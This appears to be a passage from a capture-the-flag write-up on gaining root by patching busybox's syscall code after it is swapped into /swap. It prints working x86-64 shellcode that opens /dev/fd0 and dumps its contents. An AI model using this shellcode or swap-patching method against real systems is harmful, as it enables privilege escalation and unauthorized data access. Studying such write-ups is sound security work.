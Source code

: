 You can see that even the memory of this ELF executable file was dumped into /swap.

According to Mr.2019[8], we can garble the init or exit process of busybox to shellocode, cuz they are running on root privelege. After compiling busybox with symbols, we can find specific sequences which indicate where the functions are and whether the memory is swaped into /swap. 

I tried but it didn't work for me, finding the sequences is a probablistic incident (actually quite rare). And even when I found the sequences after tons of failure, shellcode I write was not triggered at all.

I discussed with my fellow teammate pu1p[9]. He found that edit `syscall` function can gain much higher probability to trigger shellcode we write. It turned out the same on my machine.

What's more, we use exit machine code as a needle to indicate where the exit is and whether it's swaped. 

```asm
   0:   48 63 ff                movsxd rdi, edi
   3:   b8 e7 00 00 00          mov    eax, 0xe7
   8:   0f 05                   syscall
   a:   ba 3c 00 00 00          mov    edx, 0x3c
   f:   48 89 d0                mov    rax, rdx
  12:   0f 05                   syscall
  14:   eb f9                   jmp    0xf
  16:   48 89 f8                mov    rax, rdi
  19:   48 89 f7                mov    rdi, rsi
  1c:   48 89 d6                mov    rsi, rdx
  1f:   48 89 ca                mov    rdx, rcx
  22:   4d 89 c2                mov    r10, r8
  25:   4d 89 c8                mov    r8, r9
  28:   4c 8b 4c 24 08          mov    r9, QWORD PTR [rsp+0x8]
  2d:   0f 05                   syscall
  2f:   c3                      ret
```

Real shellcode is to open `sda/fd0`, read and write 

```asm
   0:   6a 01                   push   0x1
   2:   fe 0c 24                dec    BYTE PTR [rsp]
   5:   48 b8 2f 64 65 76 2f    movabs rax, 0x3064662f7665642f
   c:   66 64 30
   f:   50                      push   rax
  10:   48 89 e7                mov    rdi, rsp
  13:   31 d2                   xor    edx, edx
  15:   31 f6                   xor    esi, esi
  17:   6a 02                   push   0x2
  19:   58                      pop    rax
  1a:   0f 05                   syscall
  1c:   48 89 c7                mov    rdi, rax
  1f:   31 c0                   xor    eax, eax
  21:   31 d2                   xor    edx, edx
  23:   b6 01                   mov    dh, 0x1
  25:   be 01 01 01 01          mov    esi, 0x1010101
  2a:   81 f6 01 46 71 01       xor    esi, 0x1714601
  30:   0f 05                   syscall
  32:   6a 01                   push   0x1
  34:   5f                      pop    rdi
  35:   31 d2                   xor    edx, edx
  37:   b6 01                   mov    dh, 0x1
  39:   be 01 01 01 01          mov    esi, 0x1010101
  3e:   81 f6 01 46 71 01       xor    esi, 0x1714601
  44:   6a 01                   push   0x1
  46:   58                      pop    rax
  47:   0f 05                   syscall
```
